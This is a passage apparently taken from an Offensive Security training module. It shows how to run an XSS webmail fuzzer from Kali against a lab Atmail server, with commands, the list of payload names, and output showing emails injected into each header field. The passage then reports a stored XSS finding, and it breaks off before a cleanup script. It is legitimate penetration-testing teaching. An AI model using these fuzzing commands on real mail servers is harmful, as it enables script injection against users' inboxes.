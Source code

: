 Passing the -L option to xss-webmail-fuzzer.py will display a list of available payloads for the cross-site scripting attacks.

kali@kali:~$ ./xss-webmail-fuzzer.py -L

##############################################################
######   XSS WebMail Fuzzer - Offensive Security 2018   ######
##############################################################

[+] Fetching last XSS cheetsheet from ha.ckers.org ...
[$] Payload 0  : XSS Locator
[$] Payload 1  : XSS Quick Test
[$] Payload 2  : SCRIPT w/Alert()
[$] Payload 3  : SCRIPT w/Source File
[$] Payload 4  : SCRIPT w/Char Code
[$] Payload 5  : BASE
[$] Payload 6  : BGSOUND
[$] Payload 7  : BODY background-image
[$] Payload 8  : BODY ONLOAD
[$] Payload 9  : DIV background-image 1
[$] Payload 10  : DIV background-image 2
[$] Payload 11  : DIV expression
[$] Payload 12  : FRAME
[$] Payload 13  : IFRAME
...
Listing 2 - Listing all available XSS payloads

In order to minimize the number of emails we send and to hopefully uncover a XSS vulnerability quickly, we can start by injecting individual payloads (using the -r option) into common email fields. In the example below, we chose payload number 2 (SCRIPT w/Alert()). Please note that you will need to adjust the mail server IP address accordingly when you replay this attack.

kali@kali:~$ ./xss-webmail-fuzzer.py -t admin@offsec.local -f attacker@offsec.local -s atmail -c plain -j onebyone_main -r 2

##############################################################
######   XSS WebMail Fuzzer - Offensive Security 2018   ######
##############################################################

[+] Fetching last XSS cheetsheet from ha.ckers.org ...
[+] Replaying payload 2
[+] Sending email Payload-2-SCRIPT w/Alert()-injectedin-From
[+] Sending email Payload-2-SCRIPT w/Alert()-injectedin-To
[+] Sending email Payload-2-SCRIPT w/Alert()-injectedin-Date
[+] Sending email Payload-2-SCRIPT w/Alert()-injectedin-Subject
[+] Sending email Payload-2-SCRIPT w/Alert()-injectedin-Body
Listing 3 - Sending payload number 2 to each email field

Once the fuzzer has finished sending all applicable payloads, we can log in to the webmail interface to see if any of our emails trigger a popup message indicating that we identified a XSS vulnerability. Fortunately for us, in Figure 1 we can see that we have indeed been successful.

Figure 1: Finding stored XSS using payload 2
Figure 1: Finding stored XSS using payload 2
Given the fact that our fuzzing attempts will generate a large number of emails in the target inbox, we can use the following script to help us clean up the inbox between our fuzzing or attack attempts:
